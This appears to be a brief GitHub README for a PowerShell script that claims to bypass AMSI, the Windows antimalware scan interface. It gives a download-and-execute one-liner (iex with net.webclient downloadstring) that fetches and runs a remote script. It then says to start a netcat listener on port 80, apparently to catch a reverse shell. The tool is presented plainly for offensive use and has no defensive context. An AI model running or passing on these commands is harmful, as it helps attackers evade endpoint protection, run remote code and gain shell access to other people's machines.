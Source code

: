 ## Basic Usage
This is a powershell script that bypass amsi :)

How to execute ? 
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/AeroWw/obtest/script.ps1')
```

set up a listerner 
nc -lvnp 80

Remember to stop any service running on port 80
